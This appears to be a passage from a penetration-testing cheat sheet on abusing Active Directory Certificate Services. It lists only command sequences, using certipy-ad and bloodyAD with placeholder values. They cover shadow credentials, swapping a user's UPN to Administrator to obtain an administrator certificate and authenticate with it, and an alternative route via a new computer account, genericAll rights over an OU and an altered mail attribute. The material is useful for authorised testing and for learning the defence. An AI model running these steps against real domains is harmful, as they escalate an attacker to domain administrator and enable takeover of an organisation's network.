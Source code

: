 #### Usage

```console
$ certipy-ad shadow auto -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -account '<USERNAME>'
```

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -user '<USERNAME>' -upn 'Administrator@<DOMAIN>'
```

or

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -user '<USERNAME>' -upn 'Administrator@<DOMAIN>'
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>' -hashes '<HASH>' -template '<TEMPLATE>'
```

or

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>' -password '<PASSWORD>' -template '<TEMPLATE>'
```

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -user '<USERNAME>' -upn '<USERNAME>@<DOMAIN>'
```

```console
$ certipy-ad auth -pfx Administrator.pfx -domain '<DOMAIN>'
```

#### Usage: Alternative via Computer Object and Email

```console
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add computer '<USERNAME>' '<PASSWORD>'
```

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -user '<USERNAME>' -upn '<USERNAME>@<DOMAIN>'
```

```console
$ bloodyAD --host <RHOST> --dc-ip <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> add genericAll 'OU=<OU>,DC=<DOMAIN>,DC=<DOMAIN>' '<USERNAME>'
```

```console
$ bloodyAD --host <RHOST> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set object <USERNAME> mail -v <EMAIL>
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -hashes '<HASH>' -template '<TEMPLATE>'
```
